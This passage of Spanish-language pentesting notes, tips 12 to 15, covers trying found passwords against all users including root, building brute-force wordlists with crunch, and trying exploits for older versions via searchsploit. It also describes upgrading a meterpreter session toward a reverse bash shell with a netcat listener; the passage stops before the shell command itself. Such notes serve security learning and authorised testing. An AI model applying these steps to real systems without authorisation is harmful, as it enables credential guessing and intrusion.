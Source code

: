## 12.- Siempre que encontremos contraseñas hay que probarlas con los diferentes usuarios que encontremos, incluso con root

-------------------------------------------------------------------------------

## 13.- si queremos generar palabras aleatorioas de diferente cantiad de caracteres, podemos utilizar la herramienta crunch

crunch min max tipo -o nombre_archivo.txt

ejemplo:

solo numeros:

crunch 3 3 0123456789 -o dicnumeros.txt

solo letras:

crunch 3 3 abcdefghijklmnopqrstuvwyxz -o dicletras.txt

letras y números:

crunch 3 3 abcdefghijklmnopqrstuvwyxz0123456789 -o dicletras-num.txt

números y letras:

crunch 3 3 0123456789abcdefghijklmnopqrstuvwyxz -o diclnum-letras.txt

-------------------------------------------------------------------------------

## 14.- si tenemos una versión de un programa y al buscar un exploit hay una versión anterior, podemos probar la versión anterior, puede que funcione.

ejemplo:

Apache solr 8.3.0
versión anterior en searchsploit Apache solr 8.2.0

-------------------------------------------------------------------------------

## 15.- Si al acceder a una máquina con linux mediante metasploit y accedemos mediante meterpreter, para hacer la terminal más cómoda podemos ejecutar shell y luego mandar una bash a kali y ponernos en esucha mediante netcat:

Máquina víctima:

meterpreter > shell

puede que me salga una bash cómoda y si no es cómoda ejecutamos:

script /dev/null -c bash
 